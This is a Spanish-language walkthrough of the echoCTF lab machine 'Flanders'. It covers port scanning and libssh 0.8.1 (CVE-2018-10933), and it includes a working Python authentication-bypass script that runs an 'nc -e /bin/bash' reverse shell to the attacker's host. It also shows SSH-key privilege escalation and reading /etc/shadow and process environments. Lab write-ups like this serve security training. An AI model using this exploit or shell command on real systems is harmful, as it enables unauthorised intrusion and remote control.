


---
tags:
  - SSH Authentication Bypass (libssh)
---

# Flanders <!-- omit from toc -->


Write-up de la máquina Flanders de [echoCTF](https://echoCTF.red).


## Índice <!-- omit from toc -->


- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios (nombre - puerto)](#servicios-nombre---puerto)
    - [ssh - 6022](#ssh---6022)
      - [Manual](#manual)
- [Explotación](#explotación)
  - [libSSH Authentication Bypass](#libssh-authentication-bypass)
    - [Pasos previos | Preparación](#pasos-previos--preparación)
    - [Ejecución](#ejecución)
- [Post Explotación](#post-explotación)
  - [Enumeración](#enumeración-1)
  - [Escalación de privilegios](#escalación-de-privilegios)
    - [ETSCTF → root](#etsctf--root)
  - [Ubicación de banderas](#ubicación-de-banderas)


## Introducción


### Estadísticas


| Característica | Descripción |
|---|---|
| Nombre | [Flanders](https://echoctf.red/target/13) |
| Dificultad | Basic |
| Banderas | 4 (2 system, env, root) |
| Puntos | 4,800 pts (system/1,000 pts, system/1,300 pts, env/900 pts, root/1,500 pts) |
| Descripción / Pistas | Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is `Okily Dokily`. Catch phrase sounds like a pass phrase, only without space |


## Reconocimiento


### Escaneo de host


#### Escaneo completo de puertos


```bash
❯ sudo nmap -T5 -open -vvv --min-rate=5000 -p- -n -Pn -oG nmap/all_ports $BOX_TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:35 CDT
Initiating SYN Stealth Scan at 09:35
Scanning 10.0.100.34 [65535 ports]
Discovered open port 6022/tcp on 10.0.100.34
Completed SYN Stealth Scan at 09:35, 14.77s elapsed (65535 total ports)
Nmap scan report for 10.0.100.34
Host is up, received user-set (0.14s latency).
Scanned at 2021-10-27 09:35:04 CDT for 15s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT     STATE SERVICE REASON
6022/tcp open  x11     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.11 seconds
           Raw packets sent: 72729 (3.200MB) | Rcvd: 70809 (2.832MB)
```


#### Escaneo específico


```bash
❯ nmap -sCV -p 6022 -oN nmap/targeted $BOX_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:48 CDT
Nmap scan report for 10.0.100.34
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
| ssh-hostkey:
|_  2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
```


## Enumeración


### Servicios (nombre - puerto)


#### ssh - 6022


##### Manual


Dado el reconocimiento por medio de `nmap` se puede identificar que se está corriendo un servidor `ssh` en un puerto no convencional y se expone la versión `libssh 0.8.1`, después de una búsqueda se puede identificar que la versión expuesta cuenta con una vulnerabilidad la cuál explota un bypass de autenticación, reportada en el [CVE-2018-10933](https://nvd.nist.gov/vuln/detail/CVE-2018-10933).

Se encontraron diversos scripts en python que abusan de la vulnerabilidad:

- https://www.exploit-db.com/exploits/45638
- https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d


## Explotación


### libSSH Authentication Bypass


#### Pasos previos | Preparación


Como parte de los scripts buscados se encontró el siguiente código en un script que resultó bastante simple de ejecutar, únicamente realizando los cambios pertinentes de ip, puerto y comando (entablando una reverse shell).

**Script**
```python
#!/usr/bin/python3

import sys
import paramiko
import socket

s=socket.socket()
s.connect(("10.0.100.34",6022))
m=paramiko.message.Message()
t=paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
t._send_message(m)
c=t.open_session(timeout=5)
c.exec_command("nc -e /bin/bash 10.10.0.26 1234")
out=c.makefile("rb",2048)
output=out.read()
out.close()
print (output)
```


#### Ejecución


1. Ejecución de script.
2. Listener de reverse shell.


## Post Explotación


### Enumeración


Realizando enumeración manual se puede observar que el directorio principal del usuario al que se accede `ETSCTF` contiene una llave `ssh` que a primera impresión apuntaría a un método de escalación de privilegios a `root`.


1. Directorio.
2. Llave.
3. Usuario al que pertenece.


### Escalación de privilegios


#### ETSCTF &rarr; root


La idea inicial a seguir sería extraer la llave encontrada para intentar acceder al sistema con ella, dado que ningún intento funcionó, se puede tratar de ubicar si existe algún otro medio de acceso a la máquina por el cuál esté restringida a conexiones provenientes únicamente desde local, es decir, de `flanders` hacia `flanders`. Para comprobar esto se puede buscar si algún servicio de `ssh` está ejecutandose y si existe algún puerto que esté a la escucha de nuevas conexiones.



La salida del comando mapea automáticamente los puertos comúnes para el servicio siendo así que `127.0.0.1:ssh` sería lo mismo que `127.0.0.1:22`, verificando de esta manera que se escuchan conexiones `ssh` localmente.


En esta comprobación se puede ver que se está ejecutando `sshd` correspondiente al servidor de `ssh` en linux.

Se suelen proteger las llaves `ssh` con passphrases y observando que en la descripción de la máquina se proporciona una passphrase (`Okily Dokily`) se pudiera concluir que al hacer uso de la llave se pedirá.


Logrando así satisfactoriamente la escalación de privilegios.




### Ubicación de banderas


1. `/etc/passwd`.
2. `/etc/shadow`.
3. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
4. `/root`.
